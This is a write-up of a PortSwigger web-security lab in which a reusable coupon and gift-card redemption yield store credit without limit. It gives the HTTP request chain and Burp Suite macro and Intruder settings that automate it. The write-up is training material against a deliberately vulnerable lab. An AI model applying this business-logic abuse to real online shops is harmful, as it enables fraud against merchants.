





# [Lab: Infinite money logic flaw](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money)

## Lab

This lab has a logic flaw in its purchasing workflow. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

infinite chain (+3$ each):

1. add $10 `gift card` to cart:

    ```http
    POST /cart HTTP/1.1

    productId=2&redir=PRODUCT&quantity=1
    ```

2. apply coupon:

    ```http
    POST /cart/coupon HTTP/1.1

    csrf=EzdIdEF4YczudJrxSiM8lLHem7d7VZgM&coupon=SIGNUP30
    ```

3. checkout and order (-$7):

    ```http
    POST /cart/checkout HTTP/1.1

    csrf=EzdIdEF4YczudJrxSiM8lLHem7d7VZgM
    ```

    ```http
    GET /cart/order-confirmation?order-confirmed=true HTTP/1.1
    ```

4. redeem (+$10):

    ```http
    POST /gift-card HTTP/1.1

    csrf=EzdIdEF4YczudJrxSiM8lLHem7d7VZgM&gift-card=BD2anJ8LVr
    ```

because the coupon SIGNUP30 can be reused, so we can do this chain endlessly.

## macro in burpsuite

A macro in Burp Suite is a series of HTTP requests to be sent to the server prior to requests which have been proxied by Burp. Once the macro requests have been carried out, the set of parameters taken from the response of the final macro request can then be passed on to the request that called the macro.

## solutions

- picture 1:
  1. settings
  2. -> sessions
  3. add rule
  4. tick `include all URLs`



- picture 2:
  1. add rule action
  2. choose `run a macro`



- picture 3:
  1. add macro
  2. choose requests



- picture 4 (get parameter from 4th response):
  1. choose 4th request
  2. configuration
  3. add custom parameter
  4. set parameter name
  5. select gift-card position



- picture 5(set parameter for 5th request):
  1. choose 5th request
  2. configuration
  3. set parameter handling: `derive from prior response: response 4`



run intruder attack (random request):

- mode: sniper
- payload:
  - null payload
  - 412 times (103 + 412*3 > 1337)
- resource pool:
  - maximum concurrent requests: 1

wait for intruder attack complete and buy the $1337 product => solved
